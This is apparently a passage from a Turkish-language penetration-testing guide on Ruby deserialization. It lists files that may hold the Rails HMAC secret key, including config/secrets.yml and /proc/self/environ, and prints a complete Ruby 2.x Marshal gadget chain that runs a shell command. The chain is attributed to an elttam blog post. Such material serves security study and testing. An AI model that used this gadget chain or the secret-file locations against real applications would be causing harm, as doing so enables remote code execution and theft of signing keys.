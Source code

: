 Serileştirilmiş objeleri güvence altına almak için **Ruby, HMAC (Hash-Based Message Authentication Code)** kullanır; bu, verinin bütünlüğünü ve kaynağının doğruluğunu sağlar. Bu amaçla kullanılan anahtar aşağıdaki yerlerden birinde saklanıyor olabilir:

- `config/environment.rb`
- `config/initializers/secret_token.rb`
- `config/secrets.yml`
- `/proc/self/environ`

**Ruby 2.X generic deserialization to RCE gadget chain (more info in** [**https://www.elttam.com/blog/ruby-deserialization/**](https://www.elttam.com/blog/ruby-deserialization/)**)**:
```ruby
#!/usr/bin/env ruby

# Code from https://www.elttam.com/blog/ruby-deserialization/

class Gem::StubSpecification
def initialize; end
end


stub_specification = Gem::StubSpecification.new
stub_specification.instance_variable_set(:@loaded_from, "|id 1>&2")#RCE cmd must start with "|" and end with "1>&2"

puts "STEP n"
stub_specification.name rescue nil
puts


class Gem::Source::SpecificFile
def initialize; end
end

specific_file = Gem::Source::SpecificFile.new
specific_file.instance_variable_set(:@spec, stub_specification)

other_specific_file = Gem::Source::SpecificFile.new

puts "STEP n-1"
specific_file <=> other_specific_file rescue nil
puts


$dependency_list= Gem::DependencyList.new
$dependency_list.instance_variable_set(:@specs, [specific_file, other_specific_file])

puts "STEP n-2"
$dependency_list.each{} rescue nil
puts


class Gem::Requirement
def marshal_dump
[$dependency_list]
end
end

payload = Marshal.dump(Gem::Requirement.new)

puts "STEP n-3"
Marshal.load(payload) rescue nil
puts


```